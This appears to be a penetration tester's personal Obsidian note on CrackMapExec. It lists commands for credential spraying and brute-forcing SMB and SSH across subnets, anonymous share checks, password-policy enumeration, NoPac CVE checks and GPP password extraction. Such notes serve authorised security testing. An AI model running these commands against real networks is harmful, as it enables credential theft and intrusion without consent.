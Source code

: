 ```yaml
---
creation date: November 30th 2021
last modified date: November 30th 2021
aliases: []
tags: #📖
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📖  

# [[CrackMapExec]]  

Can be used to test creds on an entire network:
```
crackmapexec smb 10.10.110.0/24 -u mrb3n W3lc0me123!!!
```

Can also be used to brute force (smb, mssql, winrm, ldap, ssh):
```
crackmapexec smb 172.16.1.1/24 -u user.txt -p pass.txt

crackmapexec ssh 172.16.1.1/24 -u user.txt -p pass.txt
```
Anonymous login check
```
crackmapexec smb ./targets.txt -u '' -p ''  --shares
```
### Kerberos Auth 
For kerberos, use the latest CrackMapExec (>= 5.2.3)
```bash
export KRB5CCNAME=/path/to/ticket.kirbi
cme smb <ip> -d <DOMAIN> -u <USER> -k 
```
### Enumerate Password Policy

```bash
cme --verbose smb -d <DOMAIN> -u <USER> --pass-pol <DC-IP>
```

### Enumerate Machine Account Quota 
```bash 
cme --verbose ldap <dc-ip> -d -u -M maq
```

### Check for NoPac (CVE-2021-42278 | CVE-2021-42287)
```bash
crackmapexec --verbose smb <dc-ip> -u '<user>' -p '<pass>' -M nopac
```

### Scan for WebDAV Systems
```bash 
crackmapexec smb <target-list.txt> -u 'user' -p 'pass' -M webdav
```

### GPP Password 
```bash 
crackmapexec smb <dc-ip> -u 'user' -p 'pass' -M gpp_password
```


### Changing Pwn3d! output for better screenshots
```
sudo vim /home/cff-tester/.cme/cme.conf

#Change pwnd line
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 30th 2021 (09:54 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
